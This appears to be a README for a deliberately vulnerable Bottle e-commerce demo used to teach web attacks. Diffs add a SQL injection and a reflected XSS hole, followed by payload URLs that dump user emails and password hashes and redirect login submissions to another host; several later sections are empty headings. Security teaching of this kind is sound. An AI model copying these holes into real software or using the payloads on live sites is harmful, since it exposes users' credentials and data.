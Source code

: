 # bottle-store
 EC site example using Python bottle.

# SQL Injection

```diff:app.py
-results = cur.execute("SELECT * FROM rated_products WHERE name LIKE ?;", ("%" + query + "%",)).fetchall()
+results = cur.execute("SELECT * FROM rated_products WHERE name LIKE %'" + query + "%'").fetchall()
```

```
http://localhost:8080/products?q='
```

```
http://localhost:8080/products?q='--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, tbl_name, 1, 1, 1, 1 FROM sqlite_master--
```

```
http://localhost:8080/products?q=x%' UNION SELECT 1, id, email, 1, hashed_password, nickname FROM users--
```

# Reflected XSS

```diff:app.py
-<p style="color:red;"> {{ message }} </p>
+<p style="color:red;"> {{ !message }} </p>
```

```
http://localhost:8080/login?message=<s>hello</s>
```

```
http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://localhost:8081/users'}</script>
```

# Persistent XSS

# DOM based XSS

# CSRF

# Clickjucking

